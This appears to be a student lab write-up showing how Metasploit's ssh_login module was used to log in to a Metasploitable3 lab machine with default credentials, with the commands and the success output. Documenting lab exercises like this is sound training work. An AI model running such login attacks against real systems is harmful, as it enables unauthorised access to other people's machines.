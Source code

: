 # Metasploit – SSH Brute-Force

This part explains how we used Metasploit to perform an SSH login attempt on Metasploitable3 using default credentials.

## Target Info

- IP Address: 172.28.128.3
- Port: 22
- Username: msfadmin
- Password: msfadmin

## What We Did

We used Metasploit’s `ssh_login` scanner module to test if we could log in to the SSH service on the target machine using known credentials. The goal was to simulate a basic brute-force attack with a single user/pass combo.

## Steps

Start Metasploit by running the following command in the terminal:

```bash
msfconsole
```

Once it loads, use the SSH login module:

```bash
use auxiliary/scanner/ssh/ssh_login
```

Set the target IP and credentials:

```bash
set RHOSTS 172.28.128.3
set USERNAME msfadmin
set PASSWORD msfadmin
run
```

## Result

The login was successful. This confirms that the target SSH service was accessible using default credentials.

```text
[+] 172.28.128.3:22 - Login Successful: msfadmin:msfadmin
```

## Screenshot

We took a screenshot showing the successful login result from Metasploit.  
The file is saved as: `metasploit_attack.png`

This completes Task 1.1 for Phase 1.
